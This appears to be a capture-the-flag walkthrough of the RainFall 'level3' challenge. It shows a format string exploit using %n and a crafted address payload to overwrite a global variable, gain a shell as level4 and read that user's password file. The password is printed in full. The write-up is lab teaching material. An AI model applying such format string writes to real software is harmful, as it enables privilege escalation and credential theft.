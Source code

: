 level3
======

*	We spawn with a [level3](source/level3) executable
	```console
	level3@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
	level3@RainFall:~$ ./level3 
	█
	```
*	Let's take a look at the code in gdb
	```gdb
	(gdb) info functions
	All defined functions:
	...
	0x080484a4  v
	0x0804851a  main
	...
	```
*	We have two functions `v` and `main`
	-	`main` just calls `v`
	-	`v` does many things :
		-	declares a var of `520` char
		-	`fgets()` on it with a max size of 512 (fgets is overflow protected because of bound checking)
		-	`printf` the variable
		-	check if the global var `m` is equal to `0x40`
			-	if so execute a shell
*	Important thing here is also that `printf()` is vulnerable to [format string exploit](https://owasp.org/www-community/attacks/Format_string_attack) !
	```console
	level3@RainFall:~$ ./level3 
	%x %x %x
	200 b7fd1ac0 b7ff37d0
	level3@RainFall:~$ ./level3 
	aaaa %x %x %x %x %x %x
	aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
	Here we can see our string `aaaa` at fourth position `61616161`
*	So we want to make the condition succeed, we need to make sure the content of m is of 64 bytes
*	We will be using the `%n` modifier which we can specify the address like so `%[address]$n`
*	Now let's not forget the little endian rule with the address of `m` and try to replace `aaaa` with it
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test | ./level3
	� 200 b7fd1ac0 b7ff37d0 804988c
	```
	Ok it worked
*	We now need to calculate our format string :
	-	address of m -> 4 bytes
	-	random data -> 60 bytes
	not too hard here
*	We now got everything we need, let's and this level :
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test - | ./level3
	�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```